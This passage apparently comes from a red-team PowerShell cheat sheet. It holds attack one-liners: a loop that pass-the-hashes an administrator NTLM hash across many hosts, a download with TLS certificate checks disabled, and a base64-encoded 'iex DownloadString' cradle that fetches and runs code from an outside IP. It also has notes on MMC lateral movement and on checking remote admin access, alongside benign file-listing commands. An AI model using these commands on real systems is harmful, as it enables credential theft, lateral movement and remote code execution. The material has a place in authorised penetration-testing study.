 Wrap binary execution in a powershell loop

```
    powershell foreach ($target in (get-content c:\users\username\appdata\local\temp\hosts_da_loggedin_unique.txt)) { "[*] $Target:"; (c:\programdata\sd.exe ./administrator@$target -hashes aad3b435b51404eeaad3b435b51404ee:a4bab1c7d4bef62d4c22043ddbf1312c) }`
```

Download a file

```
    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(new-object system.net.webclient).downloadfile("https://www.mydomain.com/file","C:\Users\username\AppData\Local\Temp\file.txt")
```

Encode string

```
    echo "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.1:80/file')" | iconv --to-code UTF-16LE | base64 -w 0
```

List recently modified files in path (U:)

```
    Get-Childitem u:\ -Recurse | where-object {!($_.psiscontainer)} | where { $_.LastWriteTime -gt $(Get-Date).AddDays(-1)  } | foreach {"$($_.LastWriteTime) :: $($_.Fullname) "  }
```

List Files

```
    Select-String -Path c:\fso\*.txt, c:\fso\*.log -pattern ed
```

List First 100 Files

```
    Get-ChildItem -Path XXX |Select -First 100 Fullname
```

List a Process's Loaded Modules (DLL)

```
    get-process -id 1234|select -expand modules
```

Remote Command Execution using MMC

```
    https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
```

Get LocalAccountTokenFilterPolicy (Determine if you can authenticate to admin resources over the network, i.e. C$,ADMIN$)

```
    Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ |Select LocalAccountTokenFilterPolicy |fl
```

Test User Credentials
